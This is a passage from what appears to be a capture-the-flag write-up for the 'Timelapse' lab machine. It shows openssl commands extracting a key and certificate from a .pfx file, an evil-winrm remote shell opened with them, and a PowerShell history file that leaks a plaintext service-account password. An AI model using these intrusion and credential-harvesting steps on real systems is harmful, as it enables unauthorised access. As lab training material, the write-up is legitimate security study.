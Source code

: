 Extracting the certificate

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out priv.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out pub.pem 
```

## Shell as legacy user

Now we have the certifiacted we can log in to the machine using this certs

```bash
evil-winrm -i 10.10.11.152 -c pub.pem -k priv.pem -S -r timelapse.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy

```

## Powershell HIstory

We can check for powershell history file to see what commands were executed previously

```bash
PS C:\Users\legacyy\appdata\roaming\microsoft\windows\powershell\PSReadLine> cat ConsoleHost_history.txt 
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

```

Here we have a set of credentials for the user svc_deploy

## Bloodhound
